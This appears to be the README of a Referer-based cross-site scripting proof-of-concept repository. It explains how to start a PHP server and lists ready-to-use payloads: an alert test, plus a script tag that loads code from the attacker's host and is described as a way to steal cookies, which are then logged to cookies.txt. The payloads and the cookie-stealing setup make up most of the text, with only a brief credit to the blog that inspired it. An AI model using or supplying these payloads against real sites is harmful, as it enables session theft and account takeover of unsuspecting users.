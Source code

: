 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with:

```
php -S 0.0.0.0:80
```

### Example Payloads

for testing:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL
```

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

or to steal cookies:

```
http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link will work as a test of our index.php file:

```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)


If cookies are stolen via script.js and return.php, they will be written to cookies.txt.

